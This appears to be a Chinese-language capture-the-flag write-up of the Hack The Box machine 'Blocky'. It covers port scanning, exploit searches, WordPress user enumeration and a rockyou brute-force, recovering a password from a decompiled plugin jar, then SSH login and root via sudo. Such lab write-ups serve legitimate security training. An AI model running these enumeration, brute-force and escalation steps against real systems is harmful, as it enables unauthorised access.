 ```yaml
---
title: Blocky（源码泄露、java反编译）
categories:
- training
tags:
- training
- cms
- linux os
---
```


10.10.10.37 
```
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http      Apache httpd 2.4.18 ((Ubuntu))
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```
---

## 21
```
ftp 10.10.10.37

searchsploit ProFTPD
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                     | exploits/linux/remote/36803.py

msfconsole
use exploit/unix/ftp/proftpd_modcopy_exec
执行失败
```
## 22
```
python ssh.py --userList /usr/share/wordlists/linux-user.txt --outputFile out.txt 10.10.10.37

ssh root@10.10.10.37
ssh_exchange_identification: Connection closed by remote host
```
ssh禁止过多的连接

## 80
```
Server: Apache/2.4.18 (Ubuntu)
WordPress version 4.8 

http://10.10.10.37:80
wpscan --url 10.10.10.37 --enumerate p
wpscan --url 10.10.10.37 --enumerate p --enumerate u

searchsploit wordpress Host Header Injection

WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
```
手动检查了一个wpscan提示的可能漏洞，检查并没有，于是用burp scanner扫描一遍再说。

#### useful info
```
phpadmin vesion4.5.4（burp scanner扫描结果）
WordPress/4.8
http://10.10.10.37/phpmyadmin/index.php
http://10.10.10.37/wp-login.php
http://10.10.10.37/wp-links-opml.php
http://10.10.10.37/plugins/
```
## 25565
searchsploit Minecraft
经过搜索，好像是一个游戏，“《我的世界》是一款沙盒游戏。。。”
```
nc -nv 10.10.10.37 25565
wget http://10.10.10.37:25565
```
--- 

## writeup
```
wpscan --url 10.10.10.37 --enumerate
[+] Notch
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
获得一个用户名
- trying1: 弱口令检查
wpscan --url http://10.10.10.37/wp-login.php --wordlist /usr/share/wordlists/rockyou.txt --username Notch
失败

---

在plugin目录下下载jar文件，unzip解压，jad反编译，获得一个口令
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-19/11.PNG)

以/root/8YsqfCTnvxAUeduzjNSXe22，登录phpmyadmin成功。

```
ssh root@10.10.10.37
ssh Notch@10.10.10.37
ssh notch@10.10.10.37，成功
```
提权：
```
whoami 以notch普通用户登陆

sudo -l 
响应，说明该用户可以运行任何命令
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

groups notch 查看该用户所在的组，有sudo组

notch : notch adm cdrom sudo dip plugdev lxd lpadmin sambashare

sudo su
```
以前用过[该方式提权](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)。

## 总结
第一次尝试了java反汇编

wpscan可以使用不带参数的--enumerate，来枚举所有可能漏洞。
